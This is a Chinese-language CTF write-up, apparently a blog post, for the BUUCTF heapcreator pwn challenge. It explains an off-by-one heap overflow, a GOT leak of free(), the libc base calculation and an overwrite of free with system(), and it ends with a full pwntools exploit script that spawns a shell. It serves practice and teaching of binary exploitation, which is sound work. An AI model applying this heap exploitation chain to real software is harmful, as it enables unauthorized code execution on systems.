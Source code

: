 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

 [[BUUCTF](https://buuoj.cn/challenges#hitcontraining_heapcreator)]hitcontraining_heapcreator

`UAF`|`Off-By-One`|`堆溢出`

对应`libc`版本`libc6_2.23-0ubuntu9_amd64`

```shell
[*] '/home/bamuwe/heapcreator/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

```shell
bamuwe@bamuwe:~/heapcreator$ ./heapcreator
--------------------------------
          Heap Creator
--------------------------------
 1. Create a Heap
 2. Edit a Heap
 3. Show a Heap
 4. Delete a Heap
 5. Exit
--------------------------------
Your choice :
```

```c
unsigned __int64 edit_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("Content of heap : ");
    read_input(*(*(&heaparray + v1) + 1), **(&heaparray + v1) + 1LL);	//漏洞点
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
> 漏洞函数
```python
def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))
```

> 交互函数

思路：

通过`off-by-one`构造`fakechunk`,利用`fakechunk`泄露`libc`，更换`free()`地址为`system()`，得到`shell`

```python
add(0x18,b'0000')   		#0
add(0x10,b'1111')   		#1
add(0x10,b'2222')   		#2
add(0x10,b'/bin/sh\x00')    #3
edit(0,b'A'*0x18+p8(129))
```

![image-20240426165211798](./../../AppData/Roaming/Typora/typora-user-images/image-20240426165211798.png)

> 运行后截图

可以发现已经溢出了一字节`（0x81）`，将这个`chunk1`释放，再申请回来就能够通过这个`chunk1`编辑其他`chunk`的内容

```python
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
```

![image-20240426170324709](./../../AppData/Roaming/Typora/typora-user-images/image-20240426170324709.png)

> 运行后截图

![image-20240426170524597](./../../AppData/Roaming/Typora/typora-user-images/image-20240426170524597.png)

对比可以更改了原来的`BK`伪造出`fake_chunk`，即此时的`chun2`已经是`free()`的地址

![image-20240426171126423](./../../AppData/Roaming/Typora/typora-user-images/image-20240426171126423.png)

继续计算出`system()`的值并且替换`free()`

```python
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
```

![image-20240426171632077](./../../AppData/Roaming/Typora/typora-user-images/image-20240426171632077.png)

> 测试用多打印一次`chunk2`的内容

再`free(3)`就能构造出`system(/bin/sh)`得到`shell`

exp:

```python
from pwn import *
# context.log_level = 'debug'
io = gdb.debug('./heapcreator')
elf = ELF('./heapcreator')
lib = ELF('#####')

def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))

add(0x18,b'0000')   #chunk0
add(0x10,b'1111')   #chunk1
add(0x10,b'2222')   #chunk2/fake_chunk
add(0x10,b'/bin/sh\x00')    #chunk3

edit(0,b'A'*0x18+p8(129))
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
free(3)
io.interactive()
```

tips:

关于`libc_base`计算小技巧

```python
success(hex(free_addr))
libc_base = free_addr-0x83a70	#0x83a70从何而来？
```

![image-20240426172143920](./../../AppData/Roaming/Typora/typora-user-images/image-20240426172143920.png)

